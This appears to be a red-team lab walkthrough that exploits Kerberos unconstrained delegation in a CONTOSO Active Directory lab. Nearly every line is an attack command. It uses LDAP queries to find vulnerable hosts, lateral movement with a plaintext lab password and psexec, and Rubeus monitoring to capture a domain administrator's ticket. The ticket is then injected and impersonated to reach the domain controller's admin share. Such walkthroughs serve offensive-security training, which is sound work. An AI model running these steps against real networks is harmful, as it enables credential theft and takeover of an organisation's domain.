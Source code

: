 # Exploitation

1.  Use LDAP to find computers configured for unconstrained delegation.

    ```batch
    ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
    ```
2. Move laterally to _lon-ws-1_.
   2. `make_token CONTOSO\rsteel Passw0rd!`
   3. `jump psexec64 lon-ws-1 smb`
3.  Run Rubeus in monitor mode on _lon-ws-1_.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
    ```
4. Wait 1-2 minutes for the TGT of a domain administrator to be captured.
5. Stop Rubeus.
   1. `jobs`
   2. `jobkill 0`
6.  Inject the captured TGT into a sacrificial logon session.

    ```batch
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]
    ```
7. Impersonate the spawned process.
   1. `steal_token [PID]`
8. Verify the ticket is present.
   1. `run klist`
9. Use it to access _lon-dc-1_.
   1. `ls \\lon-dc-1\c$`
10. Drop the impersonation.
    1. `rev2self`
11. Terminate the spawned process.
    1. `kill [PID]`

\
